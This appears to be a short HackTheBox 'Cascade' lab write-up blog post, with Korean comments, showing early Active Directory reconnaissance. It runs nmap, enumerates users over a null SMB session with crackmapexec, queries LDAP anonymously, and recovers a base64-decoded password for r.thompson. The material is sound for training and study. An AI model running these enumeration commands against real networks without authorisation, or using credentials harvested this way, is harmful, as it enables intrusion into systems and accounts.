```yaml
---
layout: post
title: HackTheBox Cascade
subtitle: Acitive Directory 101 Cascade Exam WriteUp
author: g3rm
categories: HTB
banner:
  image: /assets/images/banners/home.gif
  opacity: 0.618
  background: "#000"
  heading_style: "font-size: 4.25em; font-weight: bold;"
  subheading_style: "color: gold"
tags:
  - HTB
  - WriteUp
sidebar:
---
```

## Summary
![](/assets/images/posts/2025-03-04-Cascade/e62731204ae8e75e2ba8c8157bcd0580_MD5.jpeg)

## Target - 10.129.192.253
### Open Port
```bash
nmap -sC -sV -Pn -p- 10.129.192.253 -oN Cascade_allport
```
![](/assets/images/posts/2025-03-04-Cascade/d068db01853b01b1190c5f0893e7b02d_MD5.jpeg)
### LDAP Enumeration Using Ldapsearch
```bash
# username 찾기
crackmapexec smb 10.129.192.253 -u '' -p '' --users

# 위에서 찾은 username으로 Ldapsearch
ldapsearch -x -H ldap://10.129.192.253 -b 'DC=cascade,DC=local' -D '' -w '' | grep -i r.thompson
ldapsearch -x sAMAccountName=r.thompson -H ldap://10.129.192.253 -b 'DC=cascade,DC=local' -D '' -w ''

# base64 decoding
rY4n5eva
```

![](/assets/images/posts/2025-03-04-Cascade/da2a3a579a986c400ebd047f5b8475ca_MD5.jpeg)
![](assets/images/posts/2025-03-04-Cascade/a6d72c86ee2c0b9b205f1195837f5c8b_MD5.jpeg)

